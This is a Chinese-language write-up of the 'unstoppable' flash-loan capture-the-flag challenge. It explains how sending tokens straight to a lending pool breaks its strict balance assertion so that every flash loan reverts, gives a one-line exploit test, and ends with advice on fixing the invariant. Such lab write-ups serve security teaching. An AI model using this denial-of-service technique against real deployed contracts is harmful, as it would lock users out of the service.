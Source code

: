 # unstoppable

## 分析

### 整体分析

这是一道闪电贷的题目，UnstoppableLender合约有一个IERC20的状态变量，flashLoan方法提供在IERC20合约中的闪电贷服务，ReceiverUnstoppable合约是普通人进行闪电贷

测试文件这个代码说明：我们要让任何人都无法执行闪电贷，使UnstoppableLender合约的flashLoan方法报废reverte

```js
after(async function () {
        /** SUCCESS CONDITIONS */

        // It is no longer possible to execute flash loans
        await expect(
            //这里会调用UnstoppableLender合约的flashLoan方法
            this.receiverContract.executeFlashLoan(10)
        ).to.be.reverted;
    });
```

### 测试代码分析

创建交易池UnstoppableLender合约，IERC20合约damnValuableToken。UnstoppableLender合约拥有一百万个IERC20代币，UnstoppableLender合约向attack用户转账100个IERC20代币。

DamnValuableToken合约是写好的，会自动检索到然后部署。这个合约给msg.sender  mint  了max(uint256)个代币，也就是DamnValuableToken合约自身拥有max(uint256)个代币。然后approve授权给UnstoppableLender合约一百万个代币，然后转账。UnstoppableLender合约就拥有了一百万个代币

### 闪电贷代码分析

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);
        
        damnValuableToken.transfer(msg.sender, borrowAmount);
        
        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
        
        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

- 我们发现，这个方法里面先是获取了UnstoppableLender合约在IERC20合约中的余额：`uint256 balanceBefore = damnValuableToken.balanceOf(address(this))`
- 判断UnstoppableLender合约在IERC20合约中的余额等于UnstoppableLender合约的poolBalance变量：`assert(poolBalance == balanceBefore);`
- 但是poolBalance变量只有在别人通过`depositTokens()`方法，在IERC20合约中调用transferFrom()方法转移权益才会增加
- 所以这个assert断言试图确保内部余额和外部余额始终相同，但是我们可以通过transfer()来给UnstoppableLender合约一点钱来打破平衡，因为transfer()不会更新poolBalance变量。正好题目创建的时候给attacker了100个代币：`await this.token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE);`。
- 因此，我们用这个attack用户向UnstoppableLender合约transfer()0~100任意个代币即可通过本题

## 解题

```js
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1)
    });
```

## 总结

- assert语句仅用于通常在正常运行的代码中永远不会失败的静态验证被认为是最佳实践。在这种情况下，我们面对的不是正常运行或安全的代码，因此最好的办法是删除 assert 语句，避免拒绝服务漏洞。在一般情况下，建议将严格相等的“==”替换为“>=”或“<=”

- [最佳实践，查看合约规范](https://secureum.substack.com/p/security-pitfalls-and-best-practices-101)









